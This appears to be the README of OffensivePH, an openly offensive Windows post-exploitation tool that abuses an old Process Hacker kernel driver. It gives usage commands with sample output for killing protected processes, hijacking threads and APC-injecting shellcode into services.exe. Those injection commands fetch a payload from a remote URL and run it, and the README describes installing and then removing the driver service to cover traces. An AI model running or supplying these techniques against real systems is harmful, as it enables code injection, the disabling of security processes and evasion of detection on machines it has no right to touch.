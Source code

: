 # offensiveph

OffensivePH is a post-exploitation tool that utilizes an old Process Hacker driver to bypass several user-mode access controls.

## Usage
- Compile OffensivePH with VS2019 (tested). 
- Execute with Admin privileges.
- offensiveph.exe: Standalone tool that can be used as a shellcode loader or process killer. 
- Hook2Kph.dll: a DLL that can be injected into your process to redirect several standard API calls to IOCTLs. Tools like sRDI can be used to convert Hook2Kph.dll into shellcode and inject your attacker process.    
- OffensivePH will extract the old Process Hacker driver from its resource section into the current directory with the name kph.sys and create a service to install driver. After execution service and file should be deleted automatically. 
```
offensivph.exe [-kill|-peb|-hijack|-apcinject] [<PID>] [<URL>]
	-kill		: Kill process (can kill PPLs)
	-peb		: Read PEB of a process
	-hijack		: Inject shellcode using thread execution hijacking
	-apcinject	: Inject shellcode into a new services.exe (WinTCB-PPL) instance
```
- Kill processes
```
> offensiveph.exe -kill 8228
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[*] Trying to terminate pid: 8228
[+] KphTerminateProcess is SUCCESSFUL
[*] Service and file are removed
```
- Inject shellcode by using Hijack Thread execution 
```
> offensiveph.exe -hijack 8412 http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Connecting to URL for downloading payload
[+] Process 8412 thread is hijacked to execute payload
[*] Service and file are removed
```
- Inject shellcode into a new services.exe instance
```
> offensiveph.exe -apcinject http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Process 652 token is duplicated as Impersonation Token!
[+] Connecting to URL for downloading payload
[+] Protected Shellcode Host Process: 6520
[*] Service and file are removed
```

## References
This repo contains lots of codes and inspration from original Process Hacker code. 
- https://github.com/processhacker/processhacker
- https://github.com/processhacker/phnt

## TODO
- Reflective DLLs and C2 implementation
- Hiding Kph Driver
